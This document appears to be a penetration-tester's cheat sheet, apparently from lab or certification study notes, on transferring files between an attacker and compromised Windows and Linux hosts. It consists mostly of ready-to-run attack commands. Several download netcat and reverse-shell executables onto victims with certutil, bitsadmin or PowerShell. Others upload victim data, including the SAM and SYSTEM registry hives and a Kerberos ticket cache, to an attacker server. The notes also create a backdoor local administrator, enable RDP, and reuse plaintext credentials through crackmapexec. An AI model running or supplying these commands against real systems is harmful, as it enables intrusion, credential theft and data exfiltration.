 # Transfer Files

<details>

<summary>Linux</summary>

```bash
python -m SimpleHTTPServer 53
```

```bash
python3 -m http.server 8023
```

```bash
wget -O <filename> <website_name>
```

```bash
curl -o <filename> <website_name>
```

```bash
axel -a -n 20 -o <filename> <website_name>
```

</details>

<details>

<summary>Windows</summary>

```shell
curl.exe http://10.11.67.208:8000/output.dll --output output.dll
```

```bash
powershell.exe iwr -uri 10.10.105.147/nc.exe -o c:\temp\nc.exe
```

```sh
powershell -c cd C:\windows\temp; wget http://10.10.14.68/nc64.exe -outfile nc64.exe
```

```powershell
(new-object net.webclient).downloadfile('http://10.10.14.2/nc.exe', 'c:\temp\nc.exe')
```

```
bitsadmin /Transfer myJob http://192.168.61.128/README.md c:\Users\testing\README.md
```

```bash
certutil.exe -urlcache -f http://10.10.14.68/nc.exe C:\Windows\Temp\nc.exe
```

</details>

<details>

<summary>Upload files to HTTP Server</summary>

[https://raw.githubusercontent.com/Tallguy297/SimpleHTTPServerWithUpload/master/SimpleHTTPServerWithUpload.py](https://raw.githubusercontent.com/Tallguy297/SimpleHTTPServerWithUpload/master/SimpleHTTPServerWithUpload.py)

Attacker's upload server:

```bash
python3 SimpleHTTPServerWithUpload.py 80
```

#### GUI to upload file:

* Go to `<Attacker's IP>`

![](<../.gitbook/assets/image (121).png>)

#### Windows victim uploading file using PS:

```powershell
(New-Object System.Net.WebClient).UploadFile('http://192.168.45.5/', 'c:\temp\20230425015352_BloodHound.zip')
```

#### Windows victim uploading file using CMD:

* double backslashes are impt!!
* Windows 10 and Server 2019 has curl.exe built-in at `c:\windows\system32\curl.exe`

```bash
powershell -c curl.exe -F 'file=@C:\\temp\\supersecret.txt' http://172.16.1.30
```

#### Linux victim uploading file:

```bash
curl -F 'file=@<FILENAME>' http://<ATTACKER-IP>/
```

```
requests.post(<path-on-server-side>, files={'file': open(output_file, 'rb')})
```

</details>

<details>

<summary>SMB</summary>

On attacker:

```bash
sudo python3 /usr/local/bin/smbserver.py share .
```

* may need to use `-smb2support` switch

On victim:

```shell
copy \\10.10.14.68\share\reverse.exe .
```

OR...

```bash
net use \\10.10.14.68\share /u:d d
cd \\10.10.14.15\share
.\winpeas.bat
```

</details>

<details>

<summary>FTP</summary>

```bash
python2.7 -m pyftpdlib -p 21 --write
```

### Non-Interactive File Transfer

* Have to craft the txt file on the victim as Linux and Win uses diff encoding for txt files.

#### CMD:

```bash
echo open 172.16.1.30 > ftp.txt
echo USER anonymous >> ftp.txt
echo PASS anonymous >> ftp.txt
echo binary >> ftp.txt
echo PUT nc.exe >> ftp.txt
echo bye >> ftp.txt

ftp.exe -v -n -s:ftp.txt
```

#### PS:

* Doesn't like the `>` or `<` characters

```bash
echo "open 172.16.1.30" | Out-File .\ftp.txt -encoding ascii
echo "USER anonymous" | Out-File .\ftp.txt -encoding ascii -append
echo "PASS anonymous" | Out-File .\ftp.txt -encoding ascii -append
echo "binary" | Out-File .\ftp.txt -encoding ascii -append
echo "PUT nc.exe" | Out-File .\ftp.txt -encoding ascii -append
echo "bye" | Out-File .\ftp.txt -encoding ascii -append

ftp.exe -v -n -s:ftp.txt
```

</details>

<details>

<summary>SCP</summary>

From attacker to victim, run command on attacker:

```bash
scp -P 2222 printname.sh student@192.168.161.52:/tmp
```

From victim to attacker, run command on attacker:

```bash
scp root@linuxvictim:/tmp/krb5cc_607000500_ZX6A9Z .
```

```bash
scp -P 2222 -o "UserKnownHostsFile=/dev/null" student@192.168.145.52:/home/student/navigating-code.exe /tmp/navigating-code.exe
```

</details>

<details>

<summary>Netcat</summary>

On Victim:

```bash
nc -nlvp 4444 > wget.exe
```

On Attacker:

```bash
nc -nv 10.11.0.22 4444 < /home/kali/Downloads/wget.exe
```

</details>

<details>

<summary>Python3 uploadserver library</summary>

On Attacker:

```python
python3 -m uploadserver 80
```

Can install using `python3 -m pip install --user uploadserver`

On Victim:

```bash
curl -X POST http://192.168.45.201:80/upload -F 'files=@/usr/bin/sg'
```

</details>

<details>

<summary>Socat</summary>

Transferring files from attacker to victim

On Attacker:

```bash
socat TCP4-LISTEN:80,fork file:rev.php       
```

On Victim:

```bash
socat TCP4:192.168.45.213:80 file:rev.php,create
```

</details>

<details>

<summary>Transfer files to unreachable hosts</summary>

* Able to reach MS01 but not MS02 despite chisel in place
* MS02 able to reach MS01 via internal IP

#### Use existing HTTP server on MS01 to transfer files

```bash
ftp <ms01's external IP>
# ftp> cd wwwroot
# ftp> bin
# ftp> put reverse.exe
# local: reverse.exe remote: reverse.exe
# 229 Entering Extended Passive Mode (|||50472|)
# 125 Data connection already open; Transfer starting.
# 100% |**********************************************************************|  7168       23.57 MiB/s    00:00 ETA
# 226 Transfer complete.
# 7168 bytes sent in 00:00 (38.06 KiB/s)

# Use Curl to download the reverse shell from MS01 web server.
proxychains -q crackmapexec mssql 10.10.105.148 -u sql_svc -p Dolphin1 -x "curl http://<ms01 Internal IP>:8000/reverse.exe --output c:\temp\reverse.exe"

```

### OR&#x20;

#### Setup Rejetto HFS server (HTTP file server)

```bash
wget https://github.com/rejetto/hfs/releases/download/v0.45.0/hfs-windows.zip
```

#### Create new local admin named bill & Enable RDP on MS01

```bash
c:\temp> net user bill P@ssw0rd /add
c:\temp> net localgroup administrators bill /add
c:\temp> reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```

#### Run the HFS server

* Use GUI to unzip --> Double-click hfs executable to serve HTTP server
* Go to [http://localhost/\~/admin/#/](http://localhost/~/admin/#/) --> hamburger icon --> shared files --> add files in virtual file system --> save

#### Download files from MS01 HFS server to MS02

```bash
proxychains -q crackmapexec mssql 10.10.105.148 -u sql_svc -p Dolphin1 -x "powershell.exe iwr -uri 10.10.105.147/nc.exe -o c:\temp\nc.exe"
```

#### Upload files from MS02 to MS01

* Inside HFS admin console ([http://localhost/\~/admin/#/fs](http://localhost/~/admin/#/fs))
  * Select "Shared Files" --> Select "Home" --> "Source on disk" put as a local directory
  * Select "Who can upload" as anyone

```bash
proxychains -q crackmapexec mssql 10.10.105.148 -u sql_svc -p Dolphin1 -X "curl.exe -F 'file=@c:\windows.old\windows\system32\SAM' http://10.10.105.147"
proxychains -q crackmapexec mssql 10.10.105.148 -u sql_svc -p Dolphin1 -X "curl.exe -F 'file=@c:\windows.old\windows\system32\SYSTEM' http://10.10.105.147"
```

* Note it's capital X, meaning that it's a Powershell command

</details>
